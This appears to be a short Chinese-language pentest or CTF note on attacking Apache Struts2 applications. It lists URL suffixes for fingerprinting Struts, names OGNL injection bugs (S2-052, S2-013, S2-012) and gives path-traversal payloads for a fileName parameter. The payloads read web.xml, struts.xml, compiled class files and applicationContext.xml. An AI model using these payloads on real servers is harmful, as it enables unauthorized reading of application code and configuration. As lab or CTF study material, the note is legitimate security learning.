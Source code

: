 特征
/index.action
.do
.action
.do.cn.ction
.xhtml
.shtml

漏洞：

s2-052，namespace处插入OGNL代码引发的漏洞。
S2-013，链接标签带入参数时导致的OGNL解析漏洞
S2-012，链接标签带入参数时导致的OGNL解析漏洞

^
一般工具都能一把梭。综合工具abc_123编写的，B站搜希水函一讲堂，可以看使用教程。


^
## **struts2任意文件读取后利用**

常规，发现是struts
```
../../WEB-INF/web.xml
```


^
struts.xml是struts2的核心配置文件，在开发过程中利用率最高。该文件主要负责管理应用中的Action映射，以及该Action包含的Result定义等。
读取struts.xml
```
?fileName=../../WEB-INF/classes/struts.xml
```
同样根据映射下载
```
?fileName=../../WEB-INF/classes/com/cuitctf/action/UserLoginAction.class

类中引用类，同样下载
../../WEB-INF/classes/com/cuitctf/service/UserService.class

?fileName=../../WEB-INF/classes/com/cuitctf/util/InitApplicationContext.class
```

下载配置文件
```
?fileName=../../WEB-INF/classes/applicationContext.xml
```